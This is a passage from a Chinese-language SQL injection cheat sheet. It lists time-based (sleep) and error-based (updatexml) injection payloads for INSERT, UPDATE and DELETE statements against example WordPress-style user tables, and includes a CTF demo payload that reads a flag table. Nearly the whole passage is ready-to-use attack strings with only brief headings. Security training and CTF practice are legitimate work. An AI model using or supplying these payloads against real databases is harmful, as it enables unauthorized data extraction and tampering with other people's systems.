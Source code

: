 #### [](#1322-%E6%B3%A8%E5%85%A5%E7%82%B9%E4%BD%8D%E4%BA%8E-values)13.2.2 注入点位于 VALUES

##### [](#13221-insert-%E5%BB%B6%E6%97%B6)13.2.2.1 INSERT 延时

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" and sleep(1))<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" & sleep(1))<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" \| sleep(1))<br>``` |

##### [](#13222-insert-%E6%8A%A5%E9%94%99)13.2.2.2 INSERT 报错

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```sql<br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"or updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"and updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"&updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"\|updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"+updatexml(1,concat(0x7e,DATABASE()),0),1)<br>``` |

result: 1105 - XPATH syntax error: ‘~sectest’, Time: 0.000000s

**Demo**

[http://chall.tasteless.eu/level15/](http://chall.tasteless.eu/level15/)

payload

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>insert into tables values ('\',',(select flag from level15_flag))# ')<br>``` |

-   name: `\`
-   text: `,(select flag from level15_flag))#`

### [](#133-update-%E6%B3%A8%E5%85%A5)13.3 UPDATE 注入

#### [](#1331-update-%E6%8A%A5%E9%94%99)13.3.1 UPDATE 报错

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>update wp_user_ set password="zxczxcxzc"or updatexml(1,concat(0x7e,database()),1) where id=9<br><br>update wp_user_ set password="zxczxcxzc"or(updatexml(1,concat(0x7e,database()),1)) where id=9<br>``` |

#### [](#1332-update-%E5%BB%B6%E6%97%B6)13.3.2 UPDATE 延时

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```sql<br>update wp_user_ set password="2" and sleep(1) where id=9<br><br>update wp_user_ set password="00000000" and if((LENGTH(database())=8),sleep(1),0) where id=9<br>//password处必须为数字型<br>``` |

### [](#134-delete-%E6%B3%A8%E5%85%A5)13.4 DELETE 注入

#### [](#1341-delete-%E5%BB%B6%E6%97%B6)13.4.1 DELETE 延时

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>delete from wp_user_ where id=21 or/and(sleep(2))<br><br>delete from wp_user_ where id=21 and if((LENGTH(database()=7)),sleep(2),0)<br>``` |
